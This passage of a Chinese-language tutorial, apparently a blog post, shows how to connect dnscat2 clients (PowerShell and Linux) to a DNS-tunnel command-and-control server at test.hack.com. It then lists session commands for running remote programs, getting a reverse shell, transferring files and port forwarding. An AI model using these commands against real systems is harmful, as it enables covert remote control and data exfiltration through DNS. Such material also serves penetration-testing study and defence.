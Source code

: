 
![](https://img-blog.csdnimg.cn/20200221101825133.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**客户端(PowerShell版本)**执行以下命令，连接服务端



```
Import-Module .\dnscat2.ps1      
start-Dnscat2 -Domain test.hack.com --secret=root@123456
```




![](https://img-blog.csdnimg.cn/20200221161650302.png)



**客户端(Linux版本)**执行以下命令，连接服务端



```
cd dnscat2/client      
./dnscat --dns domain=test.hack.com --secret=root@123456
```




![](https://img-blog.csdnimg.cn/20200221163328389.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 执行命令



我们服务端这边也会显示New window created：1 ，说明新建了一个session



然后我们执行下面命令



```
sessions      #查看当前建立的session      
windows       #查看当前建立的session，和sessions一样      
session -i 1  #进入第一个session，和MSF一样      
window  -i 1  #进入第一个session，和session -i 1一样      
help          #查看命令帮助      
    clear：清屏      
    delay：修改远程响应延时      
    exec ：执行远程机器上的指定程序，例如PowerShell或VBS      
    shell：得到一个反弹的shell      1
    download、upload：上传、下载文件，速度较慢，适合小文件      1
    suspend：返回上一层，相当于使用快捷键 Ctrl+Z      1
    listen：类似于SSH隧道的-L参数(本地转发)      1
    ping：用于确认目标机器是否在线，若返回pong，说明目标机器在线      1
    shutdown：切断当前会话      1
    quit：退出dnscat2控制台      1
    kill id：切断通道      1
    set：设置值，例如设置 security=open
```
